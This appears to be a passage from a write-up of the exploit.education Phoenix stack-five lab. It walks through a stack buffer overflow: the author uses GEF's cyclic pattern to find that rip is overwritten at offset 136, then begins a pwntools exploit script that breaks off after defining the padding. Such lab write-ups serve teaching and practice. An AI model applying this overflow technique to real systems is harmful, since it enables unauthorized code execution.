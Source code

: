 ```bash
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
gef➤
```

Using the `pattern create` command in GEF we can create a pattern that is unique for every 8 bytes, which will make it easy to find.

Now we can run the program again and supply this pattern and we find which of the unique 8 bytes from the pattern ended up in `rip`.

```bash
gef➤  r
Starting program: /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
```

The program crashes as expected and GEF has hooks set up to print the registers, stack and instructions.

Looking through the resgisters output we see:

```bash
$rip   : 0x6161616161616172 ("raaaaaaa"?)
```

The instruction pointer was overwritten with `raaaaaaa` meaning whatever we place instead of that will be our new `rip`.

Now we use `pattern search` to find where that is in the pattern string

```bash
gef➤  pattern search 0x6161616161616172
[+] Searching '0x6161616161616172'
[+] Found at offset 136 (little-endian search) likely
[+] Found at offset 129 (big-endian search)
gef➤
```

From the binary analysis we know that this binary is little endian so now we know that the offset is `136`

# Crafting exploit

We can now start working on the exploit

```python
#!/usr/bin/env python3

from pwn import *

# Defining binary
bin = context.binary = ELF('./stack-five', checksec=False)
p = process(bin.path)
context.update(arch="amd64")

# The offset and padding we need to overflow the buffer
OFFSET  = 136
PADDING = b'A' * OFFSET
```